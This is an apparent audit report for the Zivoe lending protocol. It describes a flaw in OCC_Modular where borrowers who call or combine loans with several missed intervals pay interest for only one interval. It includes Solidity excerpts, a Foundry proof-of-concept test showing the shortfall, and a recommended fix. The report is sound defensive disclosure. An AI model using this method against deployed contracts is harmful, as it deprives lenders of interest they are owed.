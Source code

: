 Best Lava Dragon

high

# A user can escape paying interest for some of the payment intervals.

## Summary
A user can escape paying interest for some of the payment intervals.
## Vulnerability Detail
The interest for a loan is calculated based on the payment interval of the loan. A loan that missed a payment, has up to a grace period to make a repayment before it enters a defaulted state. 
As per the [docs](https://docs.zivoe.com/user-docs/borrowers/how-do-defaults-work)
> In some cases, the grace period may be longer than the payment interval, and the borrower may miss several loan payments before a loan enters default. In such an event, the borrower must resolve each missed payment before late fees stop accruing. 

If a user has more than one unpaid intervals he can escape paying interest for some of them.

This can happen in two cases:
* By invoking `callLoan()` function to pay off the loan in full.
* By invoking `applyCombine()` function to combine multiple of his loans into one.

When a loan is called the interest and the principal to pay is calculated by `amountOwed()` function.
[OCC_Modular.sol#L500](https://github.com/sherlock-audit/2024-03-zivoe/blob/d4111645b19a1ad3ccc899bea073b6f19be04ccd/zivoe-core-foundry/src/lockers/OCC/OCC_Modular.sol#L500)
```solidity
(, uint256 interestOwed, uint256 lateFee, ) = amountOwed(id);
```
[OCC_Modular.sol#L455](https://github.com/sherlock-audit/2024-03-zivoe/blob/d4111645b19a1ad3ccc899bea073b6f19be04ccd/zivoe-core-foundry/src/lockers/OCC/OCC_Modular.sol#L455)
```solidity
interest =
    (loans[id].principalOwed *
        loans[id].paymentInterval *
        loans[id].APR) /
    (86400 * 365 * BIPS);
total = principal + interest + lateFee;
```
The problem is that `amountOwed()` does not account for a case where a loan has to make multiple payments, it will always return the interest just for the last payment interval. Therefore a user will only pay for one of the intervals before fully closing his loan.
[OCC_Modular.sol#L505-L518](https://github.com/sherlock-audit/2024-03-zivoe/blob/d4111645b19a1ad3ccc899bea073b6f19be04ccd/zivoe-core-foundry/src/lockers/OCC/OCC_Modular.sol#L505-L518)
```solidity
// Transfer interest to YDL if in same format, otherwise keep here for 1INCH forwarding.
if (
    stablecoin ==
    IZivoeYDL_OCC(IZivoeGlobals_OCC(GBL).YDL()).distributedAsset()
) {
    IERC20(stablecoin).safeTransferFrom(
        _msgSender(),
        IZivoeGlobals_OCC(GBL).YDL(),
        interestOwed + lateFee
    );
} else {
    IERC20(stablecoin).safeTransferFrom(
        _msgSender(),
        OCT_YDL,
        interestOwed + lateFee
    );
}
IERC20(stablecoin).safeTransferFrom(
    _msgSender(),
    owner(),
    principalOwed
);
loans[id].principalOwed = 0;
loans[id].paymentDueBy = 0;
loans[id].paymentsRemaining = 0;
loans[id].state = LoanState.Repaid;
```

The same issue can arise when a loan that has to make multiple payments is combined with another loan. In such case, the interest for unpaid intervals is omitted and not transferred to a newly combined loan.
## Impact
A user can escape paying the interest for some of the payment intervals.

## Proof Of Concept
Please add this function to Test_OCC_Modular.sol.
```solidity
function test_OCC_Modular_calling_loan_interest_lost() public {
    mint("DAI", address(tim), 1000e18);
    tim.try_approveToken(DAI, address(OCC_Modular_DAI), 1000e18);
    // uint256 borrowAmount = 100e18;
    uint256 APR = 5000;
    uint256 APRLateFee = 1000;
    uint256 term = 5;
    uint256 paymentInterval = 7 days;
    uint256 gracePeriod = 21 days;
    int8 paymentSchedule = 1;
    // Create loan
    vm.startPrank(address(roy));
    OCC_Modular_DAI.createOffer(
        address(tim),
        100e18 /* borrow amount */,
        APR,
        APRLateFee,
        term,
        paymentInterval,
        gracePeriod,
        paymentSchedule
    );
    vm.stopPrank();
    vm.prank(address(tim));
    OCC_Modular_DAI.acceptOffer(0);
    uint256 snapshot = vm.snapshot();
    // calculate the combined interest for 3 intervals
    vm.warp(block.timestamp + 20 days);
    (, uint256 interest, , ) = OCC_Modular_DAI.amountOwed(0);
    vm.prank(address(tim));
    OCC_Modular_DAI.makePayment(0);
    (, uint256 interestNew, , ) = OCC_Modular_DAI.amountOwed(0);
    vm.prank(address(tim));
    OCC_Modular_DAI.makePayment(0);
    (, uint256 interestNew1, , ) = OCC_Modular_DAI.amountOwed(0);
    vm.prank(address(tim));
    OCC_Modular_DAI.makePayment(0);
    uint256 combinedInterest = interest + interestNew + interestNew1;
    console2.log("Actual interest: ", combinedInterest);
    // Revert to state when loan is not paid before calling
    vm.revertTo(snapshot);
    uint256 balanceBefore = ERC20(DAI).balanceOf(address(tim));
    vm.prank(address(tim));
    OCC_Modular_DAI.callLoan(0);
    uint256 balanceAfter = ERC20(DAI).balanceOf(address(tim));
    console2.log(
        "Paid interest:   ",
        balanceBefore - 100e18 - balanceAfter
    );
}
```
The console output of the test:
```md
Logs:
  Actual interest:  2301369863013698628
  Paid interest:     958904109589041095
```
## Code Snippet
https://github.com/sherlock-audit/2024-03-zivoe/blob/d4111645b19a1ad3ccc899bea073b6f19be04ccd/zivoe-core-foundry/src/lockers/OCC/OCC_Modular.sol#L492-L529
https://github.com/sherlock-audit/2024-03-zivoe/blob/d4111645b19a1ad3ccc899bea073b6f19be04ccd/zivoe-core-foundry/src/lockers/OCC/OCC_Modular.sol#L742-L808
## Tool used

Manual Review

## Recommendation
In my opinion, the easiest solution that would not require changing the way interest is calculated is to not allow calling or combining a loan when `block.timestamp - paymentDueBy > 0`, since that would mean that the loan currently has a missing payment and is in a grace period.